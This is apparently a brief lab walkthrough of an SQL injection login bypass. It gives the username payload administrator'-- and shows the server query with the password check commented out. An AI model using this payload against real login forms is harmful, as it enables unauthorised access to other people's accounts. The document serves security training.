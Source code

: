 - Go to My Account.
- Login with username and password.
- Type **administrator'--** in username field and whatever password in the password field. Click log in button and now you can access the account.
- The SQL query in the server now becomes:
```
SELECT * FROM users WHERE username = 'administrator'--' AND password = {WHATEVER YOU PUT HERE}
```